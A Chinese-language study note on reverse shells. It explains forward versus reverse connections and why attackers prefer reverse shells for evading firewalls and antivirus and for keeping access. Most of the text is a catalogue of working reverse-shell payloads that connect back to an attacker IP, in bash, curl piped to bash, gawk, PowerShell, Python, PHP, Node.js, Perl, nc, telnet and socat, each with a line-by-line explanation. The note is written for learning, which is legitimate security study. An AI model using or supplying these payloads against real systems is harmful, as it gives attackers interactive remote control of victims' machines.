# 反弹shell学习
## 反弹shell基础
> 注：以攻击机为参照区分\
    反向连接 = 反弹shell = 反向shell = 反弹壳 = 反弹外壳
### 正向Shell(连接):    (攻击机主动连接受害主机)
受害主机监听一个端口，**攻击者主动连接受害主机**（目标ip：目标机器端口），适用于受害主机有公网IP的情况。远程桌面、web服务、ssh、telnet等等都是正向连接。


### 反向Shell(连接):   (受害主机出网来主动连接攻击机)
反向连接则是，攻击者指定服务端并监听某端口的tcp/UDP连接，受害主机主动(<mark>这种主动在于执行了一些攻击者的命令等</mark>)发送连接请求到该端口，并将其输入输出转换到服务端。


反弹shell(reverse shell)与telnet，ssh等标准shell对应，<mark>本质上是网络概念的客户端与服务端的角色反转.</mark>

### 为什么需要反弹shell
通常用于受害主机因防火墙受限、权限不足、端口被占用等情形：
- 对方主机在外网无法访问。
- 对方IP动态变化。
- 受害主机中了的木马，但是它在局域网内，**直接连接不了**。
- 受害主机位于局域网，或IP会动态变化，**攻击机无法直接连接**。
- 由于防火墙等限制，受害主机**只能发送请求，不能接收请求**。
- 对于病毒，木马，受害主机什么时候能中招，对方的网络环境是什么样的，什么时候开关机等情况都是未知的。
- webshell下执行命令不交互，为了方便提权或其它操作必须要反弹shell。
- 反弹shell相当于新增一个后门，当webshell被发现删除后权限不会丢失。
- 遇到各种AV（AntiVirus，杀软）对正向的连接数据包检测，对出网的检测不严格。


## 反弹shell方式
### 1. Linux反弹shell
适用于受害主机是`Linux`操作系统，以下只展示命令，<mark>关于如何让受害主机执行这些恶意命令，是攻击者在具体攻击场景中操心的事情</mark>。

操作环境：
> 攻击机：192.168.59.1(实战中，基本是外网的vps)\
> 受害机：192.168.59.129

#### 1.1 Bash反弹shell
##### 1.1.1 操作步骤

攻击机利用nc监听`7777`端口(自己定)：


然后在受害机上执行以下命令:
```sh
bash -i >& /dev/tcp/192.168.59.1/7777 0>&1
```

然后给攻击机成功拿到shell：


##### 1.1.2 命令解析

`bash -i >& /dev/tcp/192.168.59.1/7777 0>&1`可大致拆解为如下部分：
| **命令**               | **含义**                                                                             |
|:--------------------:|:----------------------------------------------------------------------------------:|
| bash -i              | 打开一个交互式shell                                                                       |
| >&                   | 将联合符号前面的内容与后面相结合，然后一起重定向给后者。                                                       |
| /dev/tcp/\<ip>/\<port> | Linux环境中所有的内容都是以文件的形式存在的，就是让受害机与攻击机\<ip>的\<port>端口建立一个tcp连接。 |
| 0>&1                 | 将标准输入与标准输出的内容相结合，然后重定向给前面标准输出的内容。                                                  |

#### 1.2 Curl反弹shell
##### 1.2.1 操作步骤

在攻击机上准备一个存有反弹shell命令的文件，如：
```python
from flask import Flask

app = Flask(__name__)

@app.route('/')
def hello_world():
    return 'bash -i >& /dev/tcp/192.168.59.1/7777 0>&1'

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=5000)
```

然后攻击机开启监听`7777`端口，受害主机通过`curl 192.168.59.1:8888/shelldemo.php|bash`访问攻击机上的该文件：



可以拿到反弹shell：


##### 1.2.2 原理解析

这个跟第一个`bash`反弹差不多，只不过是先通过`curl`间接获取反弹命令内容，然后通过管道符`|`重定向给`bash`，间接执行`bash`反弹命令。

#### 1.3 exec反弹shell
##### 1.3.1 操作步骤

攻击机监听`7777`端口，然后受害主机执行`exec 5<>/dev/tcp/192.168.59.1/7777;cat <&5 | while read line; do $line 2>&5 >&5;done`：


##### 1.3.2 原理分析

```bash
exec 5<>/dev/tcp/192.168.59.1/7777;cat <&5 | while read line; do $line 2>&5 >&5;done
```

- `exec 5<>/dev/tcp/192.168.59.1/7777`：将`文件描述符5`重定向到了攻击机的IP地址和端口上，建立了一个TCP连接，允许**读写操作**；
- `cat <&5`：将`文件描述符5`作为输入，即从TCP连接中读取数据；
- `| while read line; do $line 2>&5 >&5; done`：这一行使用管道将cat的输出传递给while循环，循环中读取每一行命令，然后执行这个命令，并将标准输出和标准错误输出都重定向回`文件描述符5`，也就是发送回攻击者的机器。

整个命令看下来就是：先建立攻击机和受害机的TCP通信连接(可理解为`文件描述符5`)，允许进行两个主机之间的读写操作；然后攻击机输入的任意命令可以被读到受害机上执行(即`5<`)，而受害机执行的结果又被写回攻击机(即`5>`).


#### 1.4 gawk反弹shell
##### 1.4.1 操作步骤
awk 是一种文本处理工具，可以用于处理文本文件中的数据。
攻击机依旧监听`7777`端口，然后受害机上会执行以下命令：
```shell
gawk 'BEGIN{s="/inet/tcp/0/192.168.59.1/7777";for(;s|&getline c;close(c))while(c|getline)print|&s;close(s)}'
```


##### 1.4.2 原理分析<sup>[4][5]</sup>
```shell
gawk 'BEGIN{s="/inet/tcp/0/192.168.59.1/7777";for(;s|&getline c;close(c))while(c|getline)print|&s;close(s)}'
```
- `BEGIN{...}`：是awk命令的开始，在程序开始的使用执行，它只执行一次，在这里可以初始化变量；
- `s="/inet/tcp/0/192.168.59.1/7777";`：与`|&`协进程运算符一起使用来创建 TCP/IP 网络连接；
- `for(;s|&getline c;close(c))`：for循环，会持续执行，直到s变量的值改变或者getline命令失败；`|&`打开一个双向管道，将逐行获取套接字中的内容并赋给`c`。
- `while(c|getline)print|&s;close(s)`：然后判断读取的内容，如果有内容的话，则执行并写回套接字中，即回显给攻击机。


### 2. Windows反弹shell
#### 2.1 Powershell反弹
##### 操作步骤
攻击机利用nc监听9999端口：


然后受害机上执行如下命令：
```shell
powershell -nop -c "$client = New-Object Net.Sockets.TCPClient('172.26.80.185',9999);$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;
$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );
$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

#### 2.2 MSF反弹


### 3. 编程语言反弹shell
#### 3.1 python反弹shell
##### 3.1.1 操作步骤
攻击机利用nc监听9999端口：


受害机执行：
```shell
python -c "import os,socket,subprocess;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('172.26.80.185',9999));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(['/bin/bash','-i']);"
```

得到如下结果：


或者在攻击机下在http服务目录下创建一个python文件，内容如下。其中一般都在vps上部署
```python
#!/usr/bin/python
#-*- coding: utf-8 -*-
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(('172.26.80.185',9999))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
```

然后开启http服务，受害机请求该py文件：



##### 3.1.2 原理分析
首先使用socket与远程建立起连接：
```
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(('172.26.80.185',9999))
```

<mark>然后使用os库的dup2方法将标准输入、标准输出、标准错误输出重定向到远程</mark>。其中dup2方法有两个参数，分别为文件描述符fd1和fd2，当fd2参数存在时，就关闭fd2，然后将fd1代表的那个文件强行复制给fd2。在这里可以把fd1和fd2看作是C语言里的指针，将fd1赋值给fd2，就相当于将fd2指向于s.fileno()，fileno()返回的是一个文件描述符，在这里也就是建立socket连接返回的文件描述符。于是这样就相当于将标准输入(0)、标准输出(1)、标准错误输出(2)重定向到远程(3)：
```
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
```

接下来使用os的subprocess在本地开启一个子进程，传入参数“-i”使bash以交互模式启动，标准输入、标准输出、标准错误输出又被重定向到了远程，这样的话就可以在远程执行输入命令了。
```
p=subprocess.call(["/bin/sh","-i"])
```

#### 3.2 php反弹shell
##### 3.2.1 操作步骤
攻击者继续利用nc监听端口。

受害机执行如下命令：
```php
php -r 'exec("/usr/bin/bash -i >& /dev/tcp/172.26.80.185/9999 0>&1");'
```



或者也可以像python那样，开启个http服务，存放如下php内容文本文件，然后利用curl命令访问：
```php
<?php
$sock=fsockopen("172.26.80.185",9999); // IP为自己的外网IP，端口自定义
exec("/bin/sh -i <&3 >&3 2>&3");
?>
```
##### 3.2.2 原理分析
跟bash的一样，省略


#### 3.3 nodejs反弹shell
##### 3.2.1 操作步骤
攻击机开启http服务，并将nodejsshell.js放在目录下，监听9999端口.

然后装有nodejs环境的攻击机访问上面的文件：



##### 3.3.2 原理分析
```js
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("/bin/sh", []);
    var client = new net.Socket();
    client.connect(9999, "172.26.80.185", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application form crashing
})();
```

首先常见一个子进程启动`/bin/sh`shell程序；

然后远程连接到攻击机，并将标准输入、标准输出以及标准错误重定向到远程连接描述符。

#### 3.4 perl反弹
##### 3.4.1 操作步骤
攻击机依旧监听9999端口；

攻击机执行如下命令：
```shell
perl -e 'use Socket;$i="172.26.80.185";$p=9999;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```


##### 3.4.2 原理分析
```perl
use Socket;
$i="172.26.80.185";
$p=9999;
socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));
if(connect(S,sockaddr_in($p,inet_aton($i))))
{
    open(STDIN,">&S");
    open(STDOUT,">&S");
    open(STDERR,">&S");
    exec("/bin/sh -i");
};
```

原理跟python的那个一样。


### 4. 其他
#### 4.1 nc反弹
攻击机监听9999端口。

装有nc的受害机执行：
```shell
nc -e /bin/bash 172.26.80.185 9999
```



#### 4.2 telnet反弹
攻击者：
nc -nvlp 4567		#输入命令
nc -nvlp 7654		#输出命令

受害者：
telnet 192.168.59.128 4567 | /bin/bash | telnet 192.168.59.128 7654





#### 4.3 socat反弹
攻击者：nc -nvlp 9999

受害者：socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:192.168.59.128 4567:9999

